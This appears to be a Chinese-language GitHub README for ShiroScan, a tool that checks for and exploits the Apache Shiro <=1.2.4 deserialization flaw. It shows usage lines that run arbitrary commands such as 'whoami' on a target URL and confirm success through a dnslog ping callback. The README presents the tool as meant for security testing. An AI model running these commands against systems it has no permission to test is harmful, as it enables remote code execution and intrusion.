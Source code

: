 # ShiroScan
Shiro&lt;=1.2.4反序列化，一键检测工具

* 如果有帮助，请点个star哦，blog：svenbeast.com
* pip3 install -r requirments.txt     
* Usage：python check_shiro.py //批量检测是否使用了shiro组件
* Usage：python3 shiro.py  url  command
* Usage：python3 shiro.py  http://url.com  whoami

* http://www.dnslog.cn/   验证推荐使用这个dnslog平台，速度比ceye.io要快很多
* 执行的命令带空格记得用""引起来

* usage：python3 shiro.py  http://url.com  "ping dnslog.cn"
* 7个模块全部跑一遍,然后去dnslog平台查看是否收到请求，不出来就GG，也可能是因为编码还不够多
* 请自行收集编码，在moule下的源代码中自行添加方法即可

## 不推荐当做exp使用，效率问题
## 仅供安全人员验证,测试是否存在此漏洞